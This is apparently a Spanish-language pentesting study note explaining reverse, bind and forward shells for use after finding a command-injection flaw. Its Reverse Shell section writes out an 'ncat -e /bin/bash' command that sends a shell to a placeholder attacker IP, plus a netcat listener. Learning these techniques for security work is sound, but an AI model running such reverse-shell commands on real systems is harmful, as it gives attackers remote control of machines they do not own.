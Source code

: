 --------
- Tags: #vulnerabilidades #reverseshell #forwardshell #bindshell #ncat #netcat #conexiones
-------
# Definición

> Cuando nosotros encontremos una **vulnerabilidad** que nos permita **inyectar comandos** a nivel de sistema **dentro de la maquina que estemos intentando comprometer**, lo primero que vamos a querer conseguir es una **consola interactiva** para poder **maniobrar en el sistema** de una manera mas cómoda, ya sea para **listar archivos**, **contraseñas**, **directorios** o lo que nos interese. Para realizar esto se utilizan **diferentes técnicas**, nosotros veremos las **tres principales** las cuales veremos de manera muy frecuente, **Reverse Shell**, **Bind Shell**, y **Forward Shell**. Estas técnicas son esenciales de cara a la [[Introducción a la explotación de vulnerabilidades]] y **explotaciones mas avanzadas**.

> **Reverse Shell** es una técnica que permite a un atacante **conectarse a una máquina remota** desde una **máquina de su propiedad**. Es decir se establece **una conexión** desde la **máquina comprometida** hacia la **máquina del atacante**. Esto se logra **ejecutando un programa malicioso** o una instrucción específica en la **máquina remota** que **establece la conexión de vuelta** hacia la **máquina del atacante**, permitiéndole **tomar el control** de la máquina remota.

 > **Bind Shell** es una técnica que hace lo **opuesto de la Reverse Shell**, ya que en lugar de que la máquina comprometida se conecte a la máquina del atacante, es **el atacante quien se conecta a la máquina comprometida**. El atacante **escucha en un puerto determinado** y la máquina comprometida **acepta la conexión entrante en ese puerto**. El atacante luego tiene acceso por consola a la máquina comprometida, lo que le permite **tomar el control de la misma**.

> **Forward Shell** es técnica se utiliza cuando **no se pueden establecer conexiones Reverse o Bind debido a reglas de Firewall** implementadas en la red. Se logra mediante el uso de **mkfifo**, que crea un archivo **FIFO** (**named pipe**), que se utiliza como una especie de “**consola simulada**” interactiva a través de la cual el atacante **puede operar en la máquina remota**. En lugar de **establecer una conexión directa**, el atacante **redirige el tráfico** a través del archivo **FIFO**, lo que permite la comunicación bidireccional con la máquina remota.

Es importante **entender las diferencias entre estas técnicas** para poder **determinar cuál es la mejor opción** en función del escenario de ataque y las limitaciones de la red.

-------
# Detalles de las Técnicas

Para poder realizar cualquiera de estas tres técnicas hacemos uso de **herramientas de conexión**, en este caso utilizaremos la herramienta **Netcat (``nc``)** para poder **establecer la conexión**, pero **puede utilizarse cualquier otra**.
## Reverse Shell

En el caso de la **Reverse Shell**, lo que debemos hacer es **enviarnos una consola interactiva desde la maquina comprometida hacia nuestra maquina de atacante**.
Dentro de la inyección de comandos que encontremos, además de colocar comandos tales como **``ls``**, **``pwd``**, **``whoami``** y demás, podemos **colocar un comando especifico para enviar una consola interactiva** a nuestra maquina de atacante, esto se puede realizar con la herramienta **``ncat``** de la siguiente manera 
- **``ncat -e /bin/bash (ip.de.nuestramaquina) (puerto)``**
Antes de ejecutar dicho comando lo que debemos hacer es **colocarnos en escucha por un puerto que queramos** en nuestra maquina de atacante con el comando 
- **``nc -nlvp (puerto)``** ==(Debe coincidir con el puerto del comando que vayamos a inyectar)== 
Para cuando inyectemos el comando, se **establezca la conexión** y tengamos acceso y control a la maquina comprometida.
